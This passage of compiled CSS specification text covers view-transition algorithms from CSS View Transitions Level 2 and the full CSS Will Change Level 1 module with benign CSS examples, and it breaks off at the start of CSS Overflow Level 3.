5. If *newDocument* was created via cross-origin redirects and *newDocument*’s latest entry is null, then return false.

   > **Note:** A Document’s latest entry would be null if this is a new navigation, rather than a restore from BFCache.
6. If *navigationType* is `traverse`, then return true.
7. If *isBrowserUINavigation* is true, then return false.
8. Return true.

###### 12.5.1.2. Setup the outbound transition when ready to swap pages {#css-view-transitions-2:setup-outbound-transition}

To **setup cross-document view-transition** given a `Document` *oldDocument*, a `Document` *newDocument*, and *proceedWithNavigation*, which is an algorithm accepting nothing:

> **Note:** This is called from the HTML spec.

1. Assert: These steps are running as part of a task queued on *oldDocument*.
2. If *oldDocument*’s can initiate outbound view transition is false, then return null.
3. Let *transitionTypesFromRule* be the result of resolving the @view-transition rule for *oldDocument*.
4. Assert: *transitionTypesFromRule* is not "`skip transition`".

   > **Note:** We don’t know yet if *newDocument* has opted in, as it might not be parsed yet. We check the opt-in for *newDocument* when we fire the `pagereveal` event.
5. If *oldDocument*’s active view transition is not null, then skip *oldDocument*’s active view transition with an "`AbortError`" `DOMException` in *oldDocument*’s relevant Realm.

   > **Note:** this means that any running transition would be skipped when the document is ready to unload.
6. Let *outboundTransition* be a new `ViewTransition` object in *oldDocument*’s relevant Realm.
7. Set *outboundTransition*’s active types to *transitionTypesFromRule*.

   > **Note:** the active types are not shared between documents. Manipulating the `types` in the old document does not affect the types in *newDocument*, which would be read from the types descriptor once *newDocument* is revealed.

   > **Note:** the `ViewTransition` is skipped once the old document is hidden.
8. Set *outboundTransition*’s outbound post-capture steps to the following steps given a view transition params-or-null *params*:

  1. Set *newDocument*’s inbound view transition params to *params*.

     > **Note:** The inbound transition is activated after the dispatch of `pagereveal` to ensure mutations made in this event apply to the captured new state.
  2. To skip the transition after a timeout, the user agent may perform the following steps in parallel:

    1. Wait for an implementation-defined duration.
    2. Queue a global task on the DOM manipulation task source given *newDocument*’s relevant global object to perform the following step:

      1. If *newDocument*’s inbound view transition params is *params*, then set *newDocument*’s inbound view transition params to null.
  3. Call *proceedWithNavigation*.
9. Set *oldDocument*’s active view transition to *outboundTransition*.

   > **Note:** The process continues in perform pending transition operations.
10. The user agent should display the currently displayed frame until either:

  - The `pagereveal` event is fired.
  - its active view transition’s phase is "`done`".

   > **Note:** this is to ensure that there are no unintended flashes between displaying the old and new state, to keep the transition smooth.
11. Return *outboundTransition*.

###### 12.5.1.3. Update the opt-in flag to reflect the current state {#css-view-transitions-2:update-opt-in}

To **update the opt-in state for outbound transitions** for a `Document` *document*:

1. If *document* has been revealed, and the result of resolving the @view-transition rule is not "`skip transition`", then set *document*’s can initiate outbound view transition to true.
2. Otherwise, set *document*’s can initiate outbound view transition to false.

###### 12.5.1.4. Proceed with navigation if view transition is skipped {#css-view-transitions-2:proceed-if-skipped}

Append the following steps to skip the view transition given a `ViewTransition` *transition*:

1. If *transition*’s outbound post-capture steps is not null, then run *transition*’s outbound post-capture steps with null.

> **Note:** This is written in a monkey-patch manner, and will be merged into the algorithm once the L1 spec graduates.

###### 12.5.1.5. Proceed with cross-document view transition after capturing the old state {#css-view-transitions-2:cross-doc-after-capture}

Prepend the following step to the Perform pending transition operations algorithm given a `Document` *document*:

1. If *document*’s active view transition is not null and its outbound post-capture steps is not null, then:

  1. Assert: *document*’s active view transition’s phase is "`pending-capture`".
  2. Let *viewTransitionParams* be null;
  3. Set *document*’s rendering suppression for view transitions to true.

     > **Issue:** Though capture the old state appears here as a synchronous step, it is in fact an asynchronous step as rendering an element into an image cannot be done synchronously. This should be more explicit in the L1 spec.
  4. Capture the old state for *transition*.
  5. If this succeeded, then set *viewTransitionParams* to a new view transition params whose named elements is a clone of *transition*’s named elements, and whose initial snapshot containing block size is *transition*’s initial snapshot containing block size.
  6. Set *document*’s rendering suppression for view transitions to false.
  7. Call *transition*’s outbound post-capture steps given *viewTransitionParams*.

> **Note:** This is written in a monkey-patch manner, and will be merged into the algorithm once the L1 spec graduates.

##### 12.5.2. Activating the view transition in the new `Document` {#css-view-transitions-2:access-view-transition-in-new-doc}

To **resolve inbound cross-document view-transition** for `Document` *document*:

1. Assert: *document* is fully active.
2. Assert: *document* has been revealed is true.
3. Update the opt-in state for outbound transitions for *document*.
4. Let *inboundViewTransitionParams* be *document*’s inbound view transition params.
5. If *inboundViewTransitionParams* is null, then return null.
6. Set *document*’s inbound view transition params to null.
7. If *document*’s active view transition is not null, then return null.

   > **Note:** this means that starting a same-document transition before revealing the document would cancel a pending cross-document transition.
8. Resolve @view-transition rule for *document* and let *resolvedRule* be the result.
9. If *resolvedRule* is "`skip transition`", then return null.
10. Let *transition* be a new `ViewTransition` in *document*’s relevant Realm, whose named elements is *inboundViewTransitionParams*’s named elements, and initial snapshot containing block size is *inboundViewTransitionParams*’s initial snapshot containing block size.
11. Set *document*’s active view transition to *transition*.
12. Resolve *transition*’s update callback done promise with undefined.
13. Set *transition*’s phase to "`update-callback-called`".
14. Set *transition*’s active types to *resolvedRule*.
15. Return *transition*.

##### 12.5.3. Capturing the `view-transition-class` {#css-view-transitions-2:vt-class-algorithms}

When capturing the old or new state for an element, perform the following steps given a captured element *capture* and an element *element*:

1. Set *capture*’s class list to the computed value of *element*’s `view-transition-class`, if it is associated with *element*’s node document.

> **Note:** This is written in a monkey-patch manner, and will be merged into the algorithm once the L1 spec graduates.

##### 12.5.4. Capturing and applying `view-transition-group` {#css-view-transitions-2:vt-group-algorithm}

###### 12.5.4.1. Resolving the `view-transition-group` value {#css-view-transitions-2:vt-group-value-resolve}

To get the **document-scoped view transition group** of an `Element` *element*, perform the following steps:

1. Let *computedGroup* be the computed value of element’s `view-transition-group` property.
2. If *computedGroup* is associated with *element*’s node document, return *computedGroup*.
3. Return `normal`.

###### 12.5.4.2. Resolving the containing group name {#css-view-transitions-2:vt-containing-group-name-resolve}

To resolve the **nearest containing group name** of an `Element` *element*, perform the following steps given a `ViewTransition` *viewTransition*:

1. Assert: *element* participates in *viewTransition*.
2. Let *ancestorGroup* be *element*’s nearest flat tree ancestor who participates in *viewTransition* and whose document-scoped view transition group is not `normal`.
3. If *ancestorGroup* exists, return *ancestorGroup*’s document-scoped view transition name.
4. Return `none`.

###### 12.5.4.3. Resolving the group name {#css-view-transitions-2:vt-group-name-resolve}

To resolve the **used group name** of an `Element` *element*, perform the following steps given a `ViewTransition` *transition*:

1. Assert: *element* participates in *transition*.
2. Let *group* be *element*’s document-scoped view transition group.
3. Let *containingGroupName* be *element*’s nearest containing group name given *transition*.
4. Return the first matching statement, switching on *group*:

  - `normal`, `contain`: *containingGroupName*. Note: an element with `contain` becomes the nearest containing group name for its descendants.
  - `nearest`: The document-scoped view transition name of the element’s nearest flat tree ancestor which participates in the *transition*.
  - `<custom-ident>`: *group* if the element has a flat tree ancestor whose document-scoped view transition name is *group* and participates in *transition*; Otherwise *containingGroupName*.

###### 12.5.4.4. Compute the old `view-transition-group` {#css-view-transitions-2:vt-group-capture-old}

When [capturing the old state for an element](#css-view-transitions-2:capture-old-state-algorithm), perform the following steps given a captured element *capturedElement*, a `ViewTransition` *transition*, and an element *element*:

1. Set *capturedElement*’s containing group name to *element*’s used group name given *transition*.
2. Set *capturedElement*’s old border width to *element*’s used `border-width`.

###### 12.5.4.5. Compute the new `view-transition-group` {#css-view-transitions-2:vt-group-capture-new}

When [capturing the new state for an element](#css-view-transitions-2:capture-new-state-algorithm), perform the following steps given a captured element *capturedElement* a `ViewTransition` *transition*, and an element *element*:

1. Set *capturedElement*’s containing group name to *element*’s used group name given *transition*.

###### 12.5.4.6. Reparent a `::view-transition-group()` to its specified containing group {#css-view-transitions-2:vt-group-reparent}

When [setting up the transition pseudo-element](#css-view-transitions-2:setup-transition-pseudo-elements-algorithm) for a captured element *capturedElement*, given a *transitionName* and a *transition*:

1. Let *containingGroupName* be *capturedElement*’s containing group name.
2. If *containingGroupName* is null, return.
3. Let *groupContainerElement* be *transition*’s named elements[*containingGroupName*].
4. Let *group* be the `::view-transition-group()`, whose view transition name is set to *transitionName*.
5. Let *childrenContainerGroup* be the `::view-transition-group-children()` whose view transition name is set to *containingGroupName*.
6. If *childrenContainerGroup* does not exist: Generate it and append to the `::view-transition-group()`, whose view transition name is set to *containingGroupName*.
7. Append *group* to *childrenContainerGroup*.
8. When setting the animation keyframes given *transform*, adjust *transform* given *groupContainerElement*.

> **Note:** It is TBD how this is resolved when the old and new groups mismatch. See [Issue 10631](https://github.com/w3c/csswg-drafts/issues/10631).

###### 12.5.4.7. Adjust the group’s `transform` to be relative to its containing `::view-transition-group()` {#css-view-transitions-2:vt-group-transform-adjust}

When [updating the style of the transition pseudo-element](#css-view-transitions-2:style-transition-pseudo-elements-algorithm), perform the following steps before setting the group styles rule, given a captured element *capturedElement*, given a *transform* and a `ViewTransition` *transition*:

1. Let *childrenTransform* be *transform*.
2. Set *capturedElement*’s transform from snapshot containing block to *transform*.
3. If *capturedElement*’s containing group name is not null, then:

  1. Let *groupContainerElement* be *transition*’s named elements[*capturedElement*’s containing group name.
  2. Adjust *transform* given *groupContainerElement*.

To **adjust nested view transition group transform** given a *transform* and a captured element *groupContainerElement*:

1. Let *childrenTransform* be *groupContainerElement*’s transform from snapshot containing block.
2. If *childrenTransform* is null, set it to *groupContainerElement*’s old transform.
3. Translate *childrenTransform* by *groupContainerElement*’s old border width’s left and top components.
4. Multiply *transform* by the inverse matrix of *childrenTransform*.

#### 12.6. Call the update callback {#css-view-transitions-2:call-dom-update-callback-algorithm}

To **call the update callback** of a `ViewTransition` *transition*:

> **Note:** This is guaranteed to happen for every `ViewTransition`, even if the transition is skipped. The reasons for this are discussed in [§ 1.5 Transitions as an enhancement](#css-view-transitions-2:transitions-as-enhancements).

1. Assert: *transition*’s phase is "`done`", or before "`update-callback-called`".
2. If *transition*’s phase is not "`done`", then set *transition*’s phase to "`update-callback-called`".
3. Let *callbackPromise* be null.
4. If *transition*’s update callback is null, then set *callbackPromise* to a promise resolved with undefined, in *transition*’s relevant Realm.
5. Otherwise, set *callbackPromise* to the result of invoking *transition*’s update callback.
6. Let *fulfillSteps* be to following steps:

  1. Resolve *transition*’s update callback done promise with undefined.
  2. Activate *transition*.
7. Let *rejectSteps* be the following steps given *reason*:

  1. Reject *transition*’s update callback done promise with *reason*.
  2. If *transition*’s phase is "`done`", then return.

     > **Note:** This happens if *transition* was skipped before this point.
  3. Mark as handled *transition*’s ready promise.

     > **Note:** *transition*’s update callback done promise will provide the `unhandledrejection`. This step avoids a duplicate.
  4. Skip the view transition *transition* with *reason*.
8. React to *callbackPromise* with *fulfillSteps* and *rejectSteps*.
9. To skip a transition after a timeout, the user agent may perform the following steps in parallel:

  1. Wait for an implementation-defined duration.
  2. Queue a global task on the DOM manipulation task source, given *transition*’s relevant global object, to perform the following steps:

    1. If *transition*’s phase is "`done`", then return.

       > **Note:** This happens if *transition* was skipped before this point.
    2. Skip *transition* with a "`TimeoutError`" `DOMException`.

To **schedule the update callback** given a `ViewTransition` *transition*:

1. Append *transition* to *transition*’s relevant settings object’s update callback queue.
2. Queue a global task on the DOM manipulation task source, given *transition*’s relevant global object, to flush the update callback queue.

To **flush the update callback queue** given a `Document` *document*:

1. For each *transition* in *document*’s update callback queue, call the update callback given *transition*.
2. Set *document*’s update callback queue to an empty list.

#### 12.7. Skip the view transition {#css-view-transitions-2:skip-the-view-transition-algorithm}

To **skip the view transition** for `ViewTransition` *transition* with reason *reason*:

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Assert: *transition*’s phase is not "`done`".
3. If *transition*’s phase is before "`update-callback-called`", then schedule the update callback for *transition*.
4. Set rendering suppression for view transitions to false.
5. If *transition*’s root element’s active view transition is *transition* or *document*’s active view transition is *transition*, clear view transition of *transition*.
6. Set *transition*’s phase to "`done`".
7. Reject *transition*’s ready promise with *reason*.

   > **Note:** The ready promise may already be resolved at this point, if `skipTransition()` is called after we start animating. In that case, this step is a no-op.
8. Resolve *transition*’s finished promise with the result of reacting to *transition*’s update callback done promise:

  - If the promise was fulfilled, then return undefined.

   > **Note:** Since the rejection of *transition*’s update callback done promise isn’t explicitly handled here, if *transition*’s update callback done promise rejects, then *transition*’s finished promise will reject with the same reason.

#### 12.8. View transition page-visibility change steps {#css-view-transitions-2:page-visibility-change-steps}

The **view transition page-visibility change steps** given `Document` *document* are:

1. Queue a global task on the DOM manipulation task source, given *document*’s relevant global object, to perform the following steps:

  1. If *document*’s visibility state is "`hidden`", then:

    1. If *document*’s active view transition is not null, then skip *document*’s active view transition with an "`InvalidStateError`" `DOMException`.
  2. Otherwise, assert: active view transition is null.
  3. Set *document*’s inbound view transition params to null.

> **Note:** this is called from the HTML spec.

#### 12.9. Capture the image {#css-view-transitions-2:capture-the-image-algorithm}

To **capture the image** given an element *element*, perform the following steps. They return an image.

1. If *element* is the document element, then:

  1. Render the region of document (including its canvas background and any top layer content) that intersects the snapshot containing block, on a transparent canvas the size of the snapshot containing block, following the capture rendering characteristics, and these additional characteristics:

    - Areas outside *element*’s scrolling box should be rendered as if they were scrolled to, without moving or resizing the layout viewport. This must not trigger events related to scrolling or resizing, such as `IntersectionObserver`s.

       

      An example of what the user sees compared to the captured snapshot. This example assumes the root is the only element with a transition name.
    - Areas that cannot be scrolled to (i.e. they are out of scrolling bounds), should render the canvas background.

       

      An example of what the user sees compared to the captured snapshot. This example assumes the root is the only element with a transition name.
  2. Return this canvas as an image. The natural size of the image is equal to the snapshot containing block.
2. Otherwise:

  1. Render *element* and its descendants, at the same size it appears in its node document, over an infinite transparent canvas, following the capture rendering characteristics.
  2. Return the portion of this canvas that includes *element*’s ink overflow rectangle as an image. The natural dimensions of this image must be those of its principal border box, and its origin must correspond to that border box’s origin, such that the image represents the contents of this border box and any captured ink overflow is represented outside these bounds.

     > **Note:** When this image is rendered as a replaced element at its natural size, it will display with the size and contents of element’s principal box, with any captured ink overflow overflowing its content box.

##### 12.9.1. Capture rendering characteristics {#css-view-transitions-2:capture-rendering-characteristics-algorithm}

The **capture rendering characteristics** are as follows:

- If the referenced element has a transform applied to it (or its ancestors), then the transform is ignored.

  > **Note:** This transform is applied to the snapshot using the `transform` property of the associated `::view-transition-group` pseudo-element.
- Effects applied on the element and its descendants, such as `opacity` and `filter`, are applied to the capture. Effects applied to the element from its ancestors are ignored.
- Implementations may clip the rendered contents if the ink overflow rectangle exceeds some implementation-defined maximum. However, the captured image should include, at the very least, the contents of *element* that intersect with the snapshot containing block. Implementations may adjust the rasterization quality to account for elements with a large ink overflow area that are transformed into view.
- Implementations may also adjust the rasterization quality for elements whose ink overflow rectangle does not intersect with the snapshot containing block. To avoid a broken experience if the element ends up becoming visible, the captured image should include, at the very least, some low-quality representation of the contents rather than transparent pixels.

  > **Note:** This allows efficiency in resource usage and rasterization performance for elements that are away from the viewport and might not become visible at all, while maintaining a visual effect close enough to the author’s intent.
- For each *descendant* of shadow-including descendant `Element` and pseudo-element of *element*, if *descendant* is captured in a view transition, then skip painting *descendant*.

  > **Note:** This is necessary since the descendant will generate its own snapshot which will be displayed and animated independently.

To **delay finish for promise**, given a `ViewTransition` *transition* and promise *p*:

1. If *transition*’s phase is "`done`", abort the remainder of the steps and return.
2. If *p* is settled, abort the remainder of the steps and return.
3. Increment *transition*’s wait until promise count.
4. Upon fulfillment or rejection of *p*:

  1. Decrement *transition*’s wait until promise count.

   > **Note:** If *transition*’s wait until promise count is 0, the transition will finish at the next rendering opportunity.

#### 12.10. Handle transition frame {#css-view-transitions-2:handle-transition-frame-algorithm}

To **handle transition frame** given a `ViewTransition` *transition*:

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Let *hasActiveAnimations* be a boolean, initially false.
3. For each *element* of the inclusive descendants of the `::view-transition` pseudo-element on *transition*’s root element:

  1. For each *animation* whose timeline is a document timeline associated with *document*, and contains at least one associated effect whose effect target is *element*, set *hasActiveAnimations* to true if any of the following conditions are true:

    - *animation*’s play state is paused or running.
    - *document*’s pending animation event queue has any events associated with *animation*.
4. If *hasActiveAnimations* is false and *transition*’s wait until promise count is 0:

  1. Set *transition*’s phase to "`done`".
  2. Clear view transition *transition*.
  3. Resolve *transition*’s finished promise.
  4. Return.
5. If *transition*’s initial snapshot containing block size is not equal to the snapshot containing block size, then skip the view transition for *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.
6. Update pseudo-element styles for *transition*.

   If failure is returned, then skip the view transition for *transition* with an "`InvalidStateError`" `DOMException` in *transition*’s relevant Realm, and return.

   > **Note:** The above implies that a change in incoming element’s size or position will cause a new keyframe to be generated. This can cause a visual jump. We could retarget smoothly but don’t have a use-case to justify the complexity. See [issue 7813](https://github.com/w3c/csswg-drafts/issues/7813) for details.

#### 12.11. Update pseudo-element styles {#css-view-transitions-2:style-transition-pseudo-elements-algorithm}

To **update pseudo-element styles** for a `ViewTransition` *transition*:

1. For each *transitionName* → *capturedElement* of *transition*’s named elements:

  1. Let *width*, *height*, *transform*, *writingMode*, *direction*, *textOrientation*, *mixBlendMode*, *backdropFilter* and *colorScheme* be null.
  2. If *capturedElement*’s new element is null, then:

    1. Set *width* to *capturedElement*’s old width.
    2. Set *height* to *capturedElement*’s old height.
    3. Set *transform* to *capturedElement*’s old transform.
    4. Set *writingMode* to *capturedElement*’s old writing-mode.
    5. Set *direction* to *capturedElement*’s old direction.
    6. Set *textOrientation* to *capturedElement*’s old text-orientation.
    7. Set *mixBlendMode* to *capturedElement*’s old mix-blend-mode.
    8. Set *backdropFilter* to *capturedElement*’s old backdrop-filter.
    9. Set *colorScheme* to *capturedElement*’s old color-scheme.
  3. Otherwise:

    1. Return failure if any of the following conditions are true:

      - *capturedElement*’s new element has a flat tree ancestor that skips its contents.
      - *capturedElement*’s new element is not rendered.
      - *capturedElement* has more than one box fragment.

       > **Note:** Other rendering constraints are enforced via *capturedElement*’s new element being captured in a view transition.
    2. Let *newRect* be the snapshot containing block if *capturedElement*’s new element is the document element, otherwise, *capturedElement*’s border box.
    3. Set *width* to the current width of *newRect*.
    4. Set *height* to the current height of *newRect*.
    5. Set *transform* to a transform that would map *newRect* from the snapshot containing block origin to its current visual position.
    6. Set *writingMode* to the computed value of `writing-mode` on *capturedElement*’s new element.
    7. Set *direction* to the computed value of `direction` on *capturedElement*’s new element.
    8. Set *textOrientation* to the computed value of `text-orientation` on *capturedElement*’s new element.
    9. Set *mixBlendMode* to the computed value of `mix-blend-mode` on *capturedElement*’s new element.
    10. Set *backdropFilter* to the computed value of `backdrop-filter` on *capturedElement*’s new element.
    11. Set *colorScheme* to the computed value of `color-scheme` on *capturedElement*’s new element.
  4. If *capturedElement*’s group styles rule is null, then set *capturedElement*’s group styles rule to a new `CSSStyleRule` representing the following CSS, and append it to *transition*’s relevant global object’s associated document’s dynamic view transition style sheet.

     Otherwise, update *capturedElement*’s group styles rule to match the following CSS:

     ```
     :root::view-transition-group(transitionName) {
  width: width;
  height: height;
  transform: transform;
  writing-mode: writingMode;
  direction: direction;
  text-orientation: textOrientation;
  mix-blend-mode: mixBlendMode;
  backdrop-filter: backdropFilter;
  color-scheme: colorScheme;
     }
     ```

     > **Note:** The above code example contains variables to be replaced.
  5. If *capturedElement*’s new element is not null, then:

    1. Let *new* be the `::view-transition-new()` with the view transition name *transitionName*.
    2. Set *new*’s replaced element content to the result of capturing the image of *capturedElement*’s new element.

This algorithm must be executed to update styles in user-agent origin if its effects can be observed by a web API.

> **Note:** An example of such a web API is `window.getComputedStyle(document.documentElement, "::view-transition")`.

#### 12.12. Clear view transition {#css-view-transitions-2:clear-view-transition-algorithm}

To **clear view transition** of a `ViewTransition` *transition*:

1. Let *document* be *transition*’s relevant global object’s associated document.
2. Assert: *transition*’s root element’s active view transition is *transition* or *document*’s active view transition is *transition*.
3. For each *capturedElement* of *transition*’s named elements' values:

  1. If *capturedElement*’s new element is not null, then set *capturedElement*’s new element’s captured in a view transition to false.
  2. For each *style* of *capturedElement*’s style definitions:

    1. If *style* is not null, and *style* is in *document*’s dynamic view transition style sheet, then remove *style* from *document*’s dynamic view transition style sheet.
4. Remove all children of the `::view-transition` pseudo-element on *transition*’s root element.
5. If *transition*’s root element is not null, set *transition*’s root element’s active view transition to null.
6. If *document*’s active view transition is *transition*, set *document*’s active view transition to null.

---

## CSS Will Change Module Level 1 {#css-will-change-1}

- **Shortname:** `css-will-change-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-will-change/](https://drafts.csswg.org/css-will-change/)
- **Published TR:** [https://www.w3.org/TR/css-will-change/](https://www.w3.org/TR/css-will-change/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2022-04-29

### 1.  Introduction {#css-will-change-1:intro}

Modern CSS renderers perform a number of complex optimizations in order to render webpages quickly and efficiently. Unfortunately, employing these optimizations often has a non-trivial start-up cost, which can have a negative impact on the responsiveness of a page.

> **Example:** For example, when using CSS 3D Transforms to move an element around the screen, the element and its contents might be promoted to a “layer”, where they can render independently from the rest of the page and be composited in later. This isolates the rendering of the content so that the rest of the page doesn’t have to be rerendered if the element’s transform is the only thing that changes between frames, and often provides significant speed benefits.
>
> However, setting up the element in a fresh layer is a relatively expensive operation, which can delay the start of a `transform` animation by a noticeable fraction of a second.

The `will-change` property defined in this specification allows an author to declare ahead-of-time what properties are likely to change in the future, so the UA can set up the appropriate optimizations some time before they’re needed. This way, when the actual change happens, the page updates in a snappy manner.

#### 1.1.  Value Definitions {#css-will-change-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.2.  Using `will-change` Well {#css-will-change-1:using}

The `will-change` property, like all performance hints, can be somewhat difficult to learn how to use “properly”, particularly since it has very little, if any, effect an author can directly detect. However, there are several simple “Dos and Don’ts” which hopefully will help develop a good intuition about how to use `will-change` well.

##### Don’t Spam `will-change` Across Too Many Properties or Elements {#css-will-change-1:dont-global}

A common initial response to seeing `will-change` is to assume that code like this is a good idea:

```
* { will-change: transform, opacity /* , ... */; }
```

After all, this tells the browser to go ahead and optimize everything, which has to be good right?

Wrong. The browser *already* tries as hard as it can to optimize everything. Telling it to do so explicitly doesn’t help anything, and in fact has the capacity to do a lot of harm; some of the stronger optimizations that are likely to be tied to `will-change` end up using a lot of a machine’s resources, and when overused like this can cause the page to slow down or even crash.

In addition, `will-change` does have **some** side-effects, and it’s very unlikely that pages actually want all those side-effects on every element.

##### Use `will-change` Sparingly In Stylesheets {#css-will-change-1:css-sparingly}

Using `will-change` directly in a stylesheet implies that the targeted elements are always a few moments away from changing. This is *usually* not what you actually mean; instead, `will-change` should usually be flipped on and off via scripting before and after the change occurs (see [Don’t Waste Resources On Elements That Have Stopped Changing](#css-will-change-1:dont-waste)). However, there are some common circumstances in which it is appropriate to use `will-change` directly in a stylesheet.

> **Example:** For example, specifying `will-change` for a small number of persistent UI elements in a page which should react snappily to the user is appropriate:
>
> ```
> body > .sidebar {
>    will-change: transform;
>    /* Will use 'transform' to slide it out
>       when the user requests. */
> }
> ```
>
> Because this is limited to a small number of elements, the fact that the optimization is rarely actually used doesn’t hurt very much.

> **Example:** Sometimes an element really *does* change a property nearly constantly. Perhaps it responds to the user’s mouse movements, or just regularly takes some action that causes an animation. In this case, just declaring the `will-change` value in the stylesheet is fine, as it accurately describes that the element will regularly/constantly change, and so should be kept optimized.
>
> ```
> .cats-flying-around-the-screen {
>   will-change: left, top;
> }
> ```

##### Give `will-change` Sufficient Time To Work {#css-will-change-1:give-time}

Another common bad pattern is to apply `will-change` to an element *immediately* before starting the animation or property change that it’s meant to help with. Unfortunately, most of those optimizations need time to be applied, and so they don’t have enough time to set-up when this is done, and the `will-change` has little to no effect. Instead, find some way to predict at least slightly ahead of time that something will change, and set `will-change` *then*.

> **Example:** For example, if an element is going to change when a user clicks on it, setting `will-change` on hover will usually give at least 200 milliseconds for the optimizations to be set up, as human reaction time is relatively slow. This can be done either via scripting, or rather simply with a CSS rule:
>
> ```
> .element { transition: opacity .2s; opacity: 1; }
> .element:hover { will-change: opacity; }
> .element:active { opacity: .3; }
> ```
>
> However, a rule like that is useless if the effect is going to happen on hover. In cases like these, it is often still possible to find some way to predict the action before it occurs. For example, hovering an ancestor may give enough lead time:
>
> ```
> .element { transition: opacity .2s; opacity: 1; }
> .container:hover > .element { will-change: opacity; }
> .element:hover { opacity: .3; }
> ```

##### Don’t Waste Resources On Elements That Have Stopped Changing {#css-will-change-1:dont-waste}

Because the optimizations browsers use for changing some properties are expensive, browsers remove them and revert to normal behavior as soon as they can in normal circumstances. However, `will-change` will generally override this behavior, maintaining the optimizations for much longer than the browser would otherwise do.

As such, whenever you add `will-change` to an element, especially via scripting, don’t forget to *remove* it after the element is done changing, so the browser can recover whatever resources the optimizations are claiming.

### 2.  Hinting at Future Behavior: the `will-change` property {#css-will-change-1:will-change}

| Field | Value |
| --- | --- |
| Name: | **will-change** |
| [Value:](#css-values-4:value-defs) | auto \| `<animateable-feature>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

```css
<animateable-feature> = scroll-position | contents | <custom-ident>
```

The `will-change` property provides a rendering hint to the user agent, stating what kinds of changes the author expects to perform on the element. This allows the user agent to perform ahead-of-time any optimizations necessary for rendering those changes smoothly, avoiding “jank” when the author does begin changing or animating that feature.

> **Note:** Different browsers can use the information from `will-change` in different ways, and even a single browser might use it in different ways at different time. For example, a browser that promotes elements to their own “GPU layer” when they have `will-change: transform` specified might avoid doing that when there are *too many* elements declaring that, to avoid exhausting GPU memory.

Values have the following meanings:

****auto****

: Expresses no particular intent; the user agent should apply whatever heuristics and optimizations it normally does.

****scroll-position****

: Indicates that the author expects to animate or change the scroll position of the element in the near future.

  > **Example:** For example, browsers often only render the content in the "scroll window" on a scrollable element, and some of the content past that window, balancing memory and time savings from the skipped rendering against making scrolling look nice. A browser might take this value as a signal to expand the range of content around the scroll window that is rendered, so that longer/faster scrolls can be done smoothly.

****contents****

: Indicates that the author expects to animate or change something about the element’s contents in the near future.

  > **Example:** For example, browsers often “cache” rendering of elements over time, because most things don’t change very often, or only change their position. However, if an element *does* change its contents continually, producing and maintaining this cache is a waste of time. A browser might take this value as a signal to cache less aggressively on the element, or avoid caching at all and just continually re-render the element from scratch.
  >
  > This value is mostly intended to help browsers optimize JS-based animations of content, which change aspects of an element’s contents many times per second. This kind of optimization, when possible, is already done automatically by browsers when declarative animations are used.

  > **Note:** This value more-or-less applies to the entire subtree of the element its declared on, as it indicates the browser should count on *any* of the descendants changing in some way. Using this on an element “high up” in your document might be very bad for your page’s performance; try to only use this on elements near the “bottom” of your document tree, containing as little of the document as possible.

****`<custom-ident>`****

: If the `<custom-ident>` is an ASCII case-insensitive match for the name of a built-in CSS property, it indicates that the author expects to animate or change the property with the given name on the element in the near future. If the property given is a shorthand, it indicates the expectation for all the longhands the shorthand expands to.

  > **Example:** For example, setting `will-change: background;` is identical to setting `will-change: background-image, background-position, ...` for all the properties that `background` expands into.

  The `<custom-ident>` production used here excludes the keywords `will-change`, `none`, `all`, `auto`, `scroll-position`, and `contents`, in addition to the keywords normally excluded from <custom-ident>.

  > **Note:** Note that most properties will have no effect when specified, as the user agent doesn’t perform any special optimizations for changes in most properties. It is still *safe* to specify them, though; it’ll simply have no effect.

  Specifying a custom property must have no effect, which means that effects that happen through custom properties do not count for the rules below that are conditioned on any non-initial value of a property causing something.

  > **Note:** Specifying a value that’s not recognized as a property is fine; it simply has no effect. This allows you to safely specify *new* properties that exist in some user agents without negatively affecting down-level user agents that don’t know about that property.

  > **Example:** For example, browsers often handle elements with `transform` set to a non-initial value very differently from normal elements, perhaps rendering them to their own “GPU layer” or using other mechanisms to make it easier to quickly make the sort of transformations that `transform` can produce. A browser might take a value of `transform` as a signal that it should go ahead and promote the element to its own layer immediately, before the element starts to be transformed, to avoid any delay involved in rerendering the old and new layers.

  If any non-initial value of a property would create a stacking context on the element, specifying that property in `will-change` must create a stacking context on the element.

  If any non-initial value of a property would cause the element to generate a containing block for absolutely positioned elements, specifying that property in `will-change` must cause the element to generate a containing block for absolutely positioned elements.

  If any non-initial value of a property would cause the element to generate a containing block for fixed positioned elements, specifying that property in `will-change` must cause the element to generate a containing block for fixed positioned elements.

  If any non-initial value of a property would cause rendering differences on the element (such as using a different anti-aliasing strategy for text), the user agent should use that alternate rendering when the property is specified in `will-change`, to avoid sudden rendering differences when the property is eventually changed.

  > **Example:** For example, setting `opacity` to any value other than `1` creates a stacking context on the element. Thus, setting `will-change: opacity` also creates a stacking context, even if `opacity` is *currently* still equal to `1`.

The `will-change` property has no *direct* effect on the element it is specified on, beyond the creation of stacking contexts and containing blocks as specified above. It is solely a rendering hint to the user agent, allowing it set up potentially-expensive optimizations for certain types of changes before the changes actually start occurring.

---

## CSS Overflow Module Level 3 {#css-overflow-3}

- **Shortname:** `css-overflow-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-overflow-3/](https://drafts.csswg.org/css-overflow-3/)
- **Published TR:** [https://www.w3.org/TR/css-overflow-3/](https://www.w3.org/TR/css-overflow-3/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-08-13

### 1.  Introduction {#css-overflow-3:intro}

